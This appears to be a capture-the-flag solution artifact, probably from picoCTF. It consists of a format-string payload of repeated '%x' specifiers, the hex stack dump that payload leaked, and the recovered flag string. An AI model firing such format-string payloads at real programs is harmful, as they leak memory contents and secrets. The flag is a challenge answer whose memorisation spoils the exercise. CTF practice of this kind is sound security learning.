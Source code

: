 %x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x

9df83b0.804b000.80489c3.f7f87d80.ffffffff.1.9df6160.f7f95110.f7f87dc7.0.9df7180.1.9df8390.9df83b0.6f636970.7b465443.306c5f49.345f7435.6d5f6c6c.306d5f79.5f79336e.35386130.32356533.fffc007d.f7fc2af8.f7f95440.e8a7aa00.1.0.f7e24be9.f7f960c0.f7f875c0.f7f87000.fffcb1b8.f7e1558d.f7f875c0.8048eca.fffcb1c4.0.f7fa9f09.804b000.f7f87000.f7f87e20.fffcb1f8.f7fafd50.f7f88890.e8a7aa00.f7f87000.804b000.fffcb1f8.8048c86.9df6160.fffcb1e4.fffcb1f8.8048be9.f7f873fc.0.fffcb2ac.fffcb2a4.1.1.9df6160.e8a7aa00.fffcb210.0.0.f7dcaf21.f7f87000.f7f87000.0.f7dcaf21.1.fffcb2a4.fffcb2ac.fffcb234.1.0.f7f87000.f7faa70a

picoCTF{I_l05t_4ll_my_m0n3y_0a853e52}